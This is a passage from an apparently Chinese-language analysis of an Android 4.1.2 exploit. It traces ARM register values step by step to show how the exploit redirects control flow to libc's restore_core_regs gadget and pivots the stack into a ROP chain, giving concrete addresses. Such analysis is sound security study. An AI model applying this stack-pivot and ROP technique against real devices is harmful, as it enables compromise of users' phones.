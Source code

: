 执行后，`r4 = [sa+4] = sa+8`

```
.text:0000EE46  LDR             R0, [R4,#8]

```

执行后,`r0 = [r4+8]=[sa+8+8]=[sa+0x10]=sa+24=sa+0x18`

```
.text:0000EE48LDR     R1, [R0]

```

执行后，`r1=[r0+0]=[sa+0x18]=sz+32=sa+0x20`

```
.text:0000EE4A  LDR             R2, [R1,#0xC]

```

执行后，`r2=[r1+0xC]=[sa+0x20+0xC]=[sa+0x2C]=new_pc`。执行`blx r2`跳到`new_pc`处。

**2）new_pc**

exploit中默认定义的new_pc为`0xb0002850（__dl_restore_core_regs）`，位于libc.so中。看Android 4.1.2的libc.so中的`restore_core_regs`函数：

```
.text:00010BA8      EXPORT restore_core_regs
.text:00010BA8      ADD             R1, R0, #0x34 ; Alternative name is '__restore_core_regs'
.text:00010BAC      LDMIA           R1, {R3-R5}
.text:00010BB0      STMFD           SP!, {R3-R5}
.text:00010BB4      LDMIA           R0, {R0-R11}
.text:00010BB8      LDMFD           SP, {SP-PC}

```

这段代码主要是用于pivot stack：

```
ADD             R1, R0, #0x34

```

此时`r0=sa+0x18，r1=sa+0x18+0x34=sa+0x4C`

```
.text:00010BAC      LDMIA           R1, {R3-R5}

```

将r1指向地址sa+0x4C的内容依次写到r3，r4，r5中，即`r3=sa+0x40=ROP+0x0`，`r4=0xb0002a98`，`r5=0xb00038b2+1`

```
.text:00010BB0      STMFD           SP!, {R3-R5}

```

将r3，r4，r5入栈。

```
.text:00010BB8      LDMFD           SP, {SP-PC}

```
